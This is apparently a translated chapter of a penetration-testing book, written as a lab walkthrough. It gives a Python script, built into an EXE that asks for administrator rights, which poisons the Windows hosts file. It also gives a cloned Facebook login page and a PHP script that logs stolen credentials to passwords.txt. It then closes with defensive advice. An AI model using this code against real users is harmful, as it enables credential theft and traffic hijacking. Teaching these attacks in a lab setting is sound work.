

# 对防病毒软件进行文件测试

我们将使用知名网站 VirusTotal，并上传我们的 Google Dumper 文件。

为此，导航到我们的 `Chrome Dumper` 文件，并上传和扫描文件。上传 `Chrome Dumper` 文件并扫描其内容。

你会看到有多少防病毒软件会触发警告。现在，我想说，如果触发警告的防病毒软件不多，我们就得到了一个不错的结果。如果有人能够使用 `PyInstaller` 尝试编译脚本并进行测试，他们可能会得到不同的结果。

# 密码钓鱼 – DNS 劫持

操控流量方向的一种最简单的方法是操作 DNS 记录。每个操作系统都包含一个主机文件，用于将主机名静态映射到特定的 IP 地址。主机文件是一个纯文本文件，只要我们拥有管理员权限，就可以轻松地重新写入它。现在，让我们快速浏览一下 Windows 操作系统中的主机文件。

在 Windows 中，该文件位于 `C:\Windows\System32\drivers\etc` 下。让我们看看 `host` 文件的内容：



如果你阅读描述，你会看到每个条目应该位于单独的一行上。此外，记录格式中有一个示例，其中 IP 地址应该放在前面。然后，至少有一个空格，后面跟着主机名。你还会看到每个记录中，IP 地址是首先出现的，接着是主机名。

现在，让我们看看数据包级别的流量：

1.  打开目标机器上的 Wireshark 并开始抓包。

1.  按攻击者的 IP 地址进行过滤：



我们有一个 `10.10.10.100` 的 IP 地址，这是我们的攻击者的 IP 地址。我们可以看到在劫持 DNS 记录之前的流量。你需要点击应用来完成该过程。

1.  打开 [`www.google.jo/?gws_rd=ssl`](https://www.google.jo/?gws_rd=ssl)。注意，一旦我们从命令行 ping 该名称，操作系统会在后台进行 DNS 查找：



我们将获取真实的 IP 地址。现在，注意在 DNS 投毒后会发生什么。为此，关闭所有窗口，除了运行 Wireshark 应用程序的那个窗口。

记住，我们应该以管理员身份运行，以便能够修改 hosts 文件。

1.  现在，即使我们以管理员身份运行，在运行应用程序时，仍然需要明确右键点击并选择“以管理员身份运行”。

1.  导航到`hosts`文件所在的目录。

1.  执行`dir`，你会看到`hosts`文件。

1.  运行`type hosts`。你可以看到这里是原始的 host。

1.  现在，我们将输入以下命令：

```
echo 10.10.10.100 www.google.jo >> hosts
```

`10.10.100`是我们 Kali 机器的 IP 地址。所以，一旦目标访问`google.jo`，它应该会被重定向到攻击者机器。

1.  再次通过执行`type hosts`验证主机。

1.  现在，修改 DNS 后，刷新 DNS 缓存总是一个好主意，这样可以确保我们使用的是更新的记录。为此，请输入以下命令：

```
ipconfig /flushdns
```

1.  现在，看看 DNS 投毒后会发生什么。为此，我们将打开浏览器并访问[`www.google.jo/?gws_rd=ssl`](https://www.google.jo/?gws_rd=ssl)。请注意，在 Wireshark 中，流量正通过 Kali 的 IP 地址，而不是`google.jo`的真实 IP 地址。这是因为`google.jo`的 DNS 解析结果是`10.10.10.100`。

1.  我们将停止捕获并恢复原始的`hosts`文件。然后，我们将把这个文件放到`drivers\etc`文件夹中。

1.  现在，让我们先通过运行以下命令来刷新被污染的 DNS 缓存：

```
ipconfig /flushdns
```

1.  然后，再次打开浏览器。我们现在应该访问[`www.google.jo/?gws_rd=ssl`](https://www.google.jo/?gws_rd=ssl)。现在我们可以开始了！

# 使用 Python 脚本

现在，我们将自动化这些步骤，但这次通过 Python 脚本来完成。

打开脚本并输入以下代码：

```
# Python For Offensive PenTest

# DNS_Poisoning

import subprocess
import os

os.chdir("C:\Windows\System32\drivers\etc") # change the script directory to ..\etc where the host file is located on windows

command = "echo 10.10.10.100 www.google.jo >> hosts" # Append this line to the host file, where it should redirect
                                                      # traffic going to google.jo to IP of 10.10.10.100
CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

command = "ipconfig /flushdns" # flush the cached dns, to make sure that new sessions will take the new DNS record
CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
```

我们要做的第一件事是将当前工作目录更改为与`hosts`文件相同的位置，这将通过`OS`库来完成。然后，使用子进程，我们将附加一个静态 DNS 记录，将 Facebook 指向`10.10.10.100`：Kali 的 IP 地址。在最后一步，我们将刷新 DNS 记录。现在我们可以保存文件并将脚本导出为 EXE。

记住，我们需要让目标以管理员身份执行它。为此，在`py2exe`的设置文件中，我们将添加一行，如下所示：

```
...
   windows = [{'script': "DNS.py", 'uac_info': "requireAdministrator"}],
...
```

所以，我们添加了一个新选项，指定当目标执行 EXE 文件时，我们将要求提升我们的权限为管理员。为此，我们将需要管理员权限。

让我们运行设置文件并开始新的捕获。现在，我将我们的 EXE 文件复制到桌面。注意这里，我们看到一个小盾牌，表示这个文件需要管理员权限，这将为我们提供运行管理员权限的确切结果。现在，让我们运行该文件。验证文件的 host 是否已被修改。你将看到我们的行已被添加。

现在，打开一个新的会话，我们将看看是否获得了重定向。我们开始一个新的捕获，并将其添加到 Firefox 中。正如你所看到的，`google.jo`的 DNS 查找指向了我们的 IP 地址，即`10.10.10.100`。

在接下来的部分，我们将看到如何利用这一点进行密码钓鱼。

# Facebook 密码钓鱼

在前一部分中，我们看到只需要几行 Python 代码，就可以将流量重定向到攻击者的机器，而不是访问[`www.google.jo/?gws_rd=ssl`](https://www.google.jo/?gws_rd=ssl)。这一次，我们将看到攻击者如何利用修改 Facebook 的 DNS 记录，重定向流量到钓鱼页面，并抓取账户密码。

首先，我们需要设置一个钓鱼页面。

你不需要成为网页编程的专家。你可以轻松地通过 Google 搜索准备钓鱼账户的步骤。

1.  要创建一个钓鱼页面，首先打开你的浏览器并导航到 Facebook 登录页面。然后，在浏览器菜单中点击文件，再点击“另存为...”。然后，确保从下拉菜单中选择完整页面。

1.  输出应该是一个`.html`文件。

1.  现在让我们在这里提取一些数据。打开书中提供的代码文件中的`Phishing`文件夹。将 Facebook 的 HTML 页面重命名为`index.html`。

1.  在这个 HTML 中，我们必须更改登录表单。如果你搜索`action=`，你会看到它。在这里，我们将登录表单更改为将请求重定向到一个名为`login.php`的自定义 PHP 页面。此外，我们还必须将请求方法更改为`GET`，而不是`POST`。

1.  你会看到我在同一个`Phishing`目录下添加了一个`login.php`页面。如果你打开文件，你会看到以下脚本：

```
<?php
header("Location: http://www.facebook.com/home.php? ");
$handle = fopen("passwords.txt", "a");
foreach($_GET as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?> 
```

一旦目标点击“登录”按钮，我们将把数据作为`GET`请求发送到这个`login.php`，并将提交的数据存储在我们的`passwords.txt`文件中；然后，我们将关闭它。

1.  接下来，我们将创建`passwords.txt`文件，目标凭据将存储在其中。

1.  现在，我们将把所有这些文件复制到`\var\www`，并启动 Apache 服务。

1.  如果我们在本地打开`index.html`页面，我们将看到这是目标将看到的钓鱼页面。

让我们快速回顾一下当目标点击“登录”按钮时会发生什么？一旦目标点击“登录”按钮，目标的凭据将作为`GET`请求发送到`login.php`。记住，这会发生是因为我们修改了`action`参数，将凭据发送到`login.php`。之后，`login.php`最终会将数据存储到`passwords.txt`文件中。

现在，在我们启动 Apache 服务之前，让我确保我们获得了一个 IP 地址。

1.  输入以下命令：

```
ifconfig eth0
```

你可以看到我们正在运行`10.10.10.100`，并且我们也会使用以下命令启动 Apache 服务：

```
service apache2 start
```

1.  让我们验证一下我们是否在监听`80`端口，并且监听的服务是 Apache：

```
netstat -antp | grep "80"
```

现在，让我们跳转到目标端看一眼。

在前面的部分，我们在脚本中使用了`google.jo`。在这里，我们已经修改了之前的脚本，将 Facebook 流量重定向到我们的攻击者机器上。因此，我们的目标所需要做的就是双击 EXE 文件。现在，为了验证：

1.  让我们启动 Wireshark，然后开始抓包。

1.  我们将过滤攻击者 IP，即`10.10.10.100`：



1.  打开浏览器并访问 [`www.facebook.com/`](https://www.facebook.com/)：



一旦我们这样做，就会跳转到钓鱼页面。在这里，你会看到目标 IP 地址，也就是 Kali 的 IP 地址。所以，在目标端，当我们访问或点击[`www.facebook.com/`](https://www.facebook.com/)时，我们实际上是在查看`index.html`，它设置在 Kali 机器上。一旦受害者点击登录页面，我们将以`GET`请求的方式将数据发送到`login.php`，并将其存储到当前为空的`passwords.txt`中。

1.  现在，使用你的用户名和密码登录 Facebook，并跳到 Kali 端查看 `passwords.txt` 文件是否有任何内容。你会看到它仍然是空的。这是因为默认情况下，我们没有写入数据的权限。现在，为了解决这个问题，我们将给予所有文件完全权限，即读、写和执行：

```
chmod -R 777 /var/www/
```

请注意，我们之所以这样做，是因为我们正在虚拟机环境（VirtualBox）中运行。如果你有一个面向公众的 Web 服务器，给所有文件完全权限是一种不良实践，因为这可能导致权限提升攻击，攻击者可能上传恶意文件或篡改文件，然后浏览到文件位置执行自己的命令。

1.  现在，在赋予权限后，我们将`停止`和`启动` Apache 服务器，以防万一：

```
service apache2 stop
service apache2 start 
```

1.  完成此修改后，前往目标机器并再次尝试登录 Facebook。然后，去 Kali 机器，点击`passwords.txt`。你会看到来自目标端提交的数据，并且可以看到用户名和密码。

最后，钓鱼活动的一个良好指示标志是缺少`https`标志。

在接下来的部分，我们将讨论如何保护自己并保障你的账户免受这些攻击。此外，你需要确保在完成评估后关闭 Apache 服务器。

# 应对措施

在本节中，我们将讨论四种方法，帮助你保护在线账户。请注意，这些方法并不是唯一可用的方式。然而，按照这些步骤操作应该能为你的账户提供一个合理的安全水平。

# 保护在线账户

首先，从使用供应商提供的安全服务开始。我强烈建议在所有账户上启用第二步身份验证（有时也叫一次性密码），比如 Gmail、LinkedIn 和 PayPal，任何时候这个选项可用时都应该启用。启用后，每次登录时，它会要求你输入用户名和密码，第二步是输入一次性密码，通常会通过短信、应用程序，甚至是电子邮件发送给你。现在，这个一次性密码通常只能在 30 秒内使用。

以下是一些链接，它们指导你如何轻松且有效地启用此功能，适用于一些服务，如 Gmail、Twitter 等：

+   Gmail 提供短信和 Gmail 移动应用：

    +   [`www.google.com/landing/2step/`](https://www.google.com/landing/2step/)

    +   [`play.google.com/store/apps/details?id=com.google.android.apps.authenticator2&hl=en`](https://play.google.com/store/apps/details?id=com.google.android.apps.authenticator2&hl=en)

+   Twitter 提供移动应用和短信服务：

    +   [`support.twitter.com/articles/20170388`](https://support.twitter.com/articles/20170388)

在进入下一个步骤之前，我需要提到，即使启用了第二步身份验证，我们仍然容易受到会话劫持漏洞的攻击，攻击者可以在第二步身份验证后劫持会话或 cookies，然后将该会话重新注入到自己的系统中。你还需要注意每次登录时的安全性。每当有新设备登录你的账户时，你通常会通过电子邮件收到一条通知，告知你有陌生的登录行为。

它还会向你提供一些信息，比如操作系统或时间戳。前面的截图显示了 Windows 操作系统，说明你已在新的设备上登录了你的账户。同时，它还会提示你如果这是一次可疑活动应该采取的措施。

为了避免这种情况，你需要确保密码足够复杂，并避免使用简单或弱的密码。

# 保护你的计算机安全

现在我们来看如何保护你的设备安全。对于计算机，以下是你需要考虑的步骤：

+   始终使用非管理员账户

+   保持浏览器和系统更新

+   考虑我们在上一节中讨论的应对措施

# 保护你的网络安全

现在，让我们来看如何保护你的网络，以保护你的数据传输安全。如果你不得不使用不受信任的网络，如咖啡馆的 Wi-Fi，来访问你的敏感数据（如银行账户或 PayPal 账户），那么你应该使用一个可信赖的 VPN 来建立一个安全的隧道，防止局域网攻击。毫无疑问，VPN 会提供身份验证和加密等功能，这将帮助防御局域网攻击，如中间人攻击。

# 监控任何可疑活动

现在，让我们来看如何在登录页面上注意任何异常情况，例如 URL 栏中缺少 https 就是一个很好的钓鱼活动指示，攻击者可能会将你的流量重定向到恶意登录页面；或者如果攻击者在中间（如中间人攻击），他可以使用像 SSL strip 这样的工具去除 SSL 加密，将你的数据转为明文。

如果你是一个对安全非常敏感的人，即使看到绿色的`https`标签，你也可以再次检查从网站获得的证书状态。例如，这是 Facebook 服务器证书的截图：



我们可以看到证书是颁发给所有 Facebook 域的，并且颁发机构是 DigiCert。

此外，证书路径将显示该证书的健康状态；并且如果存在任何子 CA（证书颁发机构）或中间证书，这些也会显示出来。

接下来，我们应该特别小心那些在浏览器显示证书错误后才显示登录页面的网站，因为攻击者可能会设置代理服务器并提供伪造的证书，在中间人攻击（Man-in-the-middle Attack）过程中拦截流量。不同浏览器可能会以不同的方式显示该证书错误的通知。

对于诈骗邮件，请记住，没有人会通过电子邮件询问你的密码，或者通过电子邮件向你发送登录链接。

# 总结

在本章中，我们了解了如何配置键盘记录器，并处理了密码管理器来安全存储设备凭证。我们还学习了一种新方法——浏览器中的中间人攻击（Man in the Browser）。此外，我们还看到了如何使用 Immunity Debugger 进行 Firefox API 钩取，并进行了密码钓鱼过程演示。

最后，我们讨论了如何保护自己并确保账户安全的对策。

在下一章，我们将设置自己的黑客环境，使用 VirtualBox。
